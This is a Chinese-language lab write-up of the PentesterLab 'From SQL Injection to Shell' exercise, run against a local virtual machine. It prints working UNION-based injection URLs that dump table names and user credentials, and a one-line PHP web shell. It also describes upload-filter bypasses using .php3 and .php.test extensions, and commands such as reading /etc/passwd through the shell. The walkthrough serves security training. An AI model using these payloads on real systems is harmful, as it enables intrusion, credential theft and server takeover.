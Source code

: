 # 从SQL注入到Shell

## 实验环境

下载ISO镜像并装入虚拟机

![](Images/e2.jpg)

设置虚拟机网络端口转发规则

![](Images/e3.png)

设置宿主机浏览器的代理服务器

![](Images/e1.jpg)

使用宿主机浏览器访问服务器

![](Images/e4.png)

## 实验过程

### 收集信息

通过http响应报文头，可以收集服务器的的相关信息，如PHP版本信息等

![](Images/11.png)

### 检测并利用SQL注入

**通过整数检测SQL注入**

http://127.0.0.1:8080/cat.php?id=1 和 http://127.0.0.1:8080/cat.php?id=2-1 返回的页面相同，则说明数据库直接做了减法，而并没有对这种输入做出过滤处理，因此存在SQL注入的可能性

**通过字符串检测SQL注入**

- 使用偶数个```'```来测试，奇数个单引号一般会导致语法错误
- 使用```--```把查询语句的后部注销掉
- 使用```and '1'='1```（不改变查询语句的语义）和```and '1'='0```（改变查询语句的语义），对比发现漏洞

**使用UNION关键字进行SQL注入**

- 利用UNION前后的select语句返回列数必须相同，可以递增查询列数从而检测出数据库该查询语句会查询多少列

  - 如图，当猜测列数为2时，返回列数不相同的报错信息。只有当猜测列数为4时，会返回正确结果

![](Images/22.png)  
![](Images/21.png)

- 也可以使用```order by ```语句来检测查询列的数目

  - 如图当排序的数目大于4时，会返回报错信息

![](Images/23.png)

**通过SQL注入得到信息**

结合已经得到的查询列数信息，可以通过```@@version```，```current_user()```和```database()```获得数据库版本信息、当前用户信息以及数据库名

![](Images/31.png)
![](Images/32.png)
![](Images/33.png)

此外，还可以获得所有表名、列名以及表和列间的对应关系

http://127.0.0.1:8080/cat.php?id=3%20UNION%20SELECT%201,table_name,3,4%20FROM%20information_schema.tables

![](Images/34.png)

http://127.0.0.1:8080/cat.php?id=3%20UNION%20SELECT%201,concat(table_name,%27:%27,%20column_name),3,4%20FROM%20information_schema.columns

![](Images/37.png)

- 从上述信息中我们可以找到users表中有login和password字段，把它们查询出来

http://127.0.0.1:8080/cat.php?id=3%20union%20select%201,concat(login,%27:%27,password),3,4%20from%20users

![](Images/36.png)

### 进入管理页面并执行代码

- 将刚刚得到的密码哈希值在线解密，得到密码为```P4ssw0rd```，成功登陆管理员账户

![](Images/41.png)

- 找到文件上传界面，上传一个php脚本。把php脚本与网页服务器web目录下的正常文件放在相同路径下，可以在浏览器端实现命令执行环境，从而控制服务器

![](Images/42.png)

```php
<?php
  system($_GET['cmd']);
  ?>```

- 但是网站返回提示信息，禁止上传PHP文件。可以有如下两种方式绕过PHP过滤

  - ```.php3```后缀可以绕过对```.php```后缀的过滤
  - ```.php.test```也可以绕过```.php```过滤，Apache服务器会依然把它当做PHP文件

![](Images/43.png)

- 上传成功后，点开该文件，查看该页面源代码，可以看到php文件在服务器上的存储路径

![](Images/44.png)

![](Images/45.png)

- 访问该路径并通过cmd参数，可以获取服务器的大量信息，并执行代码
  - 如通过```ls```得到当前目录或上级目录信息
  - 通过```cat /etc/passwd```得到系统用户列表
  - 通过```cat /etc/hosts```等指令可以查看主机信息，更改网络配置，甚至重启系统

![](Images/46.png)

![](Images/47.png)

## 参考链接  
  - [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
